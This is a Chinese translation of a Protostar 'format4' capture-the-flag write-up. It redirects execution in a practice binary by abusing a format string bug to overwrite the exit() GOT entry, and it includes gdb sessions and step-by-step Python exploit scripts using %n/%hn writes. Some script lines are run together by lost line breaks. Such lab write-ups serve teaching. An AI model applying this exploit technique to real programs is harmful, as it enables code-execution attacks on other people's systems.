




# [ExpDev]漏洞利用练习| Protostar |格式 4

> 原文：<https://infosecwriteups.com/expdev-exploit-exercise-protostar-format-4-e2907b4716d1?source=collection_archive---------2----------------------->


# 格式 4(格式字符串漏洞:GOT)

该挑战的目标是通过利用全局偏移表(“GOT”)而不是我们在之前的格式字符串漏洞挑战中使用的返回指针，重定向我们的执行流以打印获胜的语句。让我们看看我们如何做到这一点:)

*   链接:[https://exploit-exercises.lains.space/protostar/format4/](https://exploit-exercises.lains.space/protostar/format4/)



## 注意事项

*   `**char buffer[512]**`:设置缓冲区大小为 512。
*   `**fgets(buffer, sizeof(buffer), stdin)**`:获取用户提供的输入。并且它将缓冲区大小限制为 512。我们可以最大输入 511 个字节，因为 C 总是在字符串末尾添加`0x00`作为终止符。
*   `**printf(buffer);**`:这是这段代码中易受攻击的函数。`printf()`将*而非*检查所提供的输入是否是预期的格式字符串，因为它被编码为接受任何字符串值。所以我们能做的就是简单地验证我们是否可以泄漏内存地址，并且也可以将任意代码写到堆栈上(**【读取】** `%p`或者`%x` → **【写入】** `%n`)。
*   `**exit(1);**`:`exit(1)`是一个系统调用，它简单地退出程序。与之前的练习不同，我们在`printf()`之后没有任何返回地址；相反，我们有这个`exit(1)`。但是我们可以做的是，由于`exit(1)`是全局偏移表(“GOT”)的一部分，我们可以用`hello()`的地址覆盖它的`exit(1)`函数的入口点，以打印出获胜的语句。

## 有什么？



来源:[https://ctf101.org/binary-exploitation/what-is-the-got/](https://ctf101.org/binary-exploitation/what-is-the-got/)

简单地说，GOT 帮助在动态链接的 ELF 二进制文件中加载共享库函数(例如`exit()`)。基本上，一个人可以创建他们的程序，而不需要重新编写像`exit()`这样的流行函数；相反，它们可以添加指针来调用这些函数，因为它们可以在运行时动态加载。下面是 ASM 文件示例:



来源:[https://github . com/big B0 SSS/b 0 ssheasm/blob/master/0x 06 _ libc/libc _ 01 . nasm](https://github.com/bigb0sss/b0ssTheASM/blob/master/0x06_libc/libc_01.nasm)

# 拆解(GDB)

让我们反汇编二进制文件，看看在 ASM 级别做了什么。

```
**$ gdb -q /opt/protostar/bin/format4**
Reading symbols from /opt/protostar/bin/format4...done.
**(gdb) set disassembly-flavor intel 
(gdb) disassemble vuln**
```



从源代码的角度来看，程序本身非常简单。我们现在只需要记下`exit()`函数(`0x8049724`)的入口地址。

# 剥削

## 初步侦察

像往常一样，让我们提供一些随机的字符串:

```
**$ python -c 'print "AAAA"' | /opt/protostar/bin/format4**
AAAA
```

打印出我们输入的任何字符串。但是如果提供一些格式字符串参数(`%08x`，我们会得到一些有趣的输出:

```
**$ python -c 'print "AAAA" + "|%08x" * 2' | /opt/protostar/bin/format4**
AAAA|00000200|b7fd8420***### Format String Explanation
"%08x"*** *= "%x" is a Format String parameter of the hexdecimal 
         representation. 
         The number "08" is the minimum value for "width field."
         This will pad the output of the "%x" specified to 8
         characters, which is equal to 4 bytes long.*
```

## 寻找偏移

接下来，我们需要找到在堆栈上可以看到我们提供的输入的偏移量。如果我们尝试增加几个`%x`，我们可以发现偏移量为 4。

```
**$ python -c 'print "AAAA" + "|%08x" * 3' | /opt/protostar/bin/format4**
AAAA|00000200|b7fd8420|bffff5f4**$ python -c 'print "AAAA" + "|%08x" * 4' | /opt/protostar/bin/format4**
AAAA|00000200|b7fd8420|bffff5f4|**41414141    <-- chr(0x41) = "A"**
```

## 确认对 GOT 条目的写入

如果您有疑问，让我们确认一下我们是否可以覆盖`exit(1)` GOT ( `0x8049724`，*我们从上面的“拆卸(GDB)”部分获得了这个地址🙂*同此。为此，我们需要创建一个简单的漏洞利用脚本:

```
**[exploit.py]**#!/usr/bin/pythonimport structexit_plt = 0x8049724                      **# Entry of exit(1) GOT**exploit = ""
exploit+= struct.pack("I",exit_plt)       
exploit+= "%4$08n"                        **# Write a number of 
                                            characters in the 4th 
                                            location (= offset)**print exploit
```

将这个文件作为输出，这样我们就可以将它输入到 gdb 中:

```
**$ python exploit.py > exploit**
```

运行 gdb，在`printf()`和`exit()`系统调用上设置断点，并提供我们的`exploit`输出:

```
**$ gdb -q /opt/protostar/bin/format4** 
  Reading symbols from /opt/protostar/bin/format4...done.
**(gdb) set disassembly-flavor intel** 
**(gdb) disassemble vuln**
Dump of assembler code for function vuln:
  0x080484d2 <vuln+0>: push   ebp
  0x080484d3 <vuln+1>: mov    ebp,esp
  0x080484d5 <vuln+3>: sub    esp,0x218
  0x080484db <vuln+9>: mov    eax,ds:0x8049730
  0x080484e0 <vuln+14>: mov    DWORD PTR [esp+0x8],eax
  0x080484e4 <vuln+18>: mov    DWORD PTR [esp+0x4],0x200
  0x080484ec <vuln+26>: lea    eax,[ebp-0x208]
  0x080484f2 <vuln+32>: mov    DWORD PTR [esp],eax
  0x080484f5 <vuln+35>: call   0x804839c <fgets@plt>
  0x080484fa <vuln+40>: lea    eax,[ebp-0x208]
  0x08048500 <vuln+46>: mov    DWORD PTR [esp],eax
  **0x08048503 <vuln+49>: call   0x80483cc <printf@plt>   <-- Break 1**
  0x08048508 <vuln+54>: mov    DWORD PTR [esp],0x1
  **0x0804850f <vuln+61>: call   0x80483ec <exit@plt>     <-- Break 2**
  End of assembler dump.
**(gdb) break * 0x08048503**
  Breakpoint 1 at 0x8048503: file format4/format4.c, line 20.
**(gdb) break * 0x0804850f**
  Breakpoint 2 at 0x804850f: file format4/format4.c, line 22.
**(gdb) run < /home/user/format4/exploit** 
  Starting program: /opt/protostar/bin/format4 < /home/user/format4\. 
  /exploit Breakpoint 1, 0x08048503 in vuln () at format4/format4.c:20
  20 format4/format4.c: No such file or directory.
**(gdb) disassemble 0x80483ec                   <-- Disassemble exit()**
  Dump of assembler code for function exit@plt:
  0x080483ec <exit@plt+0>: jmp    DWORD PTR ds:**0x8049724**
  0x080483f2 <exit@plt+6>: push   0x30
  0x080483f7 <exit@plt+11>: jmp    0x804837c
  End of assembler dump.
**(gdb) x 0x8049724                  <-- Examine the current GOT entry**
  0x8049724 <_GLOBAL_OFFSET_TABLE_+36>: **0x080483f2**
**(gdb) continue**
  Continuing.
  $� Breakpoint 2, 0x0804850f in vuln () at format4/format4.c:22
  22 in format4/format4.c
**(gdb) x 0x8049724                  <-- Examine the current GOT entry**
  0x8049724 <_GLOBAL_OFFSET_TABLE_+36>: **0x00000004**
```

太好了。如您所见，从`0x080483f2`到`0x00000004`的有效载荷已经覆盖了 GOT 地址的条目。现在，我们只需要找到`hello()`函数的地址，并更新我们的漏洞，用它来正确地覆盖 get 入口点。

## 正在查找“hello()”的地址

```
**$ objdump -t /opt/protostar/bin/format4 |grep hello**
**080484b4** g     F .text 0000001e              hello
```

找到的`hello()`功能的地址是`0x080484b4`。

## 最终利用(2 字节短写)

由此看来，这个漏洞应该与我们在`Format3`练习[和](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-format-3-33e8d8f1e83)中所做的非常相似。由于用宽度字段控制`%n`很简单，我们可以使用任何技术。也就是说，我们将用 2 字节的短写方法来解决这个问题。

为了进一步澄清，让我快速解释一下这将如何进行:

```
**1) Our overwriting point:** 
  0x08049724 (Entry of the exit() GOT)**2) Desired value that we want to overwrite with:**
  0x080484b4 (hello())**3) 2-byte Short Write points:
(gdb) x 0x8049724**
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>: **0x080483f2**
                                          ⬇
                    0x08           **04**             83             **f2**
              ------------------------------------------------------
              0x8049727      **0x8049726      0x8049725      0x8049724**
```

根据上面的表示，我们将利用地址:`**0x8049724**`和`**0x8049726**`。来得到我们想要的值。

让我们验证一下，我们是否可以在这些`**0x8049724**`和`**0x8049726**`地址上写入任意值:

```
**[exploit.py]**#!/usr/bin/pythonimport structhello = 0x080484b4
exit_plt = 0x8049724                      
exit_plt2 = 0x8049726exploit = ""
exploit+= struct.pack("I",exit_plt)
exploit+= struct.pack("I",exit_plt2)
exploit+= "%4$08n"
exploit+= "%5$08n"print exploit
```

一旦我们将上述漏洞保存到一个文件中，运行 gdb 来检查我们是否可以覆盖每个地址位置:

```
**### Confirming 2-byte Overwrite on GOT Entry****(gdb) run < /home/user/format4/exploit** 
  Starting program: /opt/protostar/bin/format4 < /home/user/format4 
  /exploit Breakpoint 1, 0x08048503 in vuln () at format4/format4.c:20
  20 in format4/format4.c
**(gdb) x 0x8049724**
  0x8049724 <_GLOBAL_OFFSET_TABLE_+36>: 0x080483f2
**(gdb) continue**
  Continuing.
  $&� Breakpoint 2, 0x0804850f in vuln () at format4/format4.c:22
  22 in format4/format4.c
**(gdb) x 0x8049724**
  0x8049724 <_GLOBAL_OFFSET_TABLE_+36>: **0x00080008**
```

很好。我们可以看到，我们的尝试在每个地址位置上都写了`0x0008`值。现在，我们只需要计算宽度字段，以便输出我们想要的值。( *** [*查看*](https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-format-2-73ef08011a8c) `[*Format2*](https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-format-2-73ef08011a8c)` [*练习，了解关于宽度字段计算的更多详细说明*](https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-format-2-73ef08011a8c) )

```
**### Final Exploit**0x080484b4    **<-- Desired value & divide this into 2**
    ⬇  
  0x84b4      **<-- We will write this on "0x8049724"**
  0x0804      **<-- We will write this on "0x8049726"** **[Width Calculation #1: "0x8049724"]
____________________________________________________________________** *# Written value was "0008." In order to calculate the width field, we need to subtract "0008" from our desired value = "*0x84b4*"*(gdb) print 0x84b4 - 0x0008
  $5 = **33964****[exploit.py - Width Calculation #1]**#!/usr/bin/pythonimport structhello = 0x080484b4
exit_plt = 0x8049724
exit_plt2 = 0x8049726exploit = ""
exploit+= struct.pack("I",exit_plt)
exploit+= struct.pack("I",exit_plt2)
exploit+= **"%33964x%4$hn"**
exploit+= "%5$08n"print exploit**[gdb - Width Calculation #1]****(gdb) run < /home/user/format4/exploit**
*...(snip)...*
**(gdb) x 0x8049724**
  0x8049724 <_GLOBAL_OFFSET_TABLE_+36>: 0x84b4**84b4   <-- Written OK** **[Width Calculation #2: "0x8049726"]
____________________________________________________________________***# From the above calculation as you can see the second 2 byte location is also filled with "84b4" which means we need to subtract that value from our desired value to get the correct width field.***(gdb) print 0x0804 - 0x84b4**
  $6 = -31920*# Holdup... Negative output? Obviously, we cannot use this negative padding. In this case, however, there is a trick that we overflow into the next byte to get our desired value on the target location. Since we have a control on the stack, we can still overwrite the overflowed value. Example below:***(gdb) print 0x10804 - 0x84b4**
  $7 = **33616****[exploit.py - Width Calculation #2]**#!/usr/bin/pythonimport structhello = 0x080484b4
exit_plt = 0x8049724
exit_plt2 = 0x8049726exploit = ""
exploit+= struct.pack("I",exit_plt)
exploit+= struct.pack("I",exit_plt2)
exploit+= "%33964x%4$hn"
exploit+= **"%33616x%5$hn"**print exploit**[gdb - Width Calculation #2]****(gdb) run < /home/user/format4/exploit**
*...(snip)...*
**(gdb) x 0x8049724** 0x8049724 <_GLOBAL_OFFSET_TABLE_+36>: **0x080484b4   <-- Written OK**
**(gdb) continue**
  Continuing.
  **code execution redirected! you win   <-- Winning Statement!** Program exited with code 01.
```

完美！我们成功地利用了格式字符串漏洞来覆盖`exit()`的入口点，从而重定向我们的执行流来打印出获胜的语句。

我们还可以将最终的漏洞脚本直接运行到`format4`二进制文件中:

```
**$ python /home/user/format4/exploit.py | /opt/protostar/bin/format4**
...(snip of A LOT OF white spaces)...
                                         b7fd8420
**code execution redirected! you win**
```

感谢阅读！

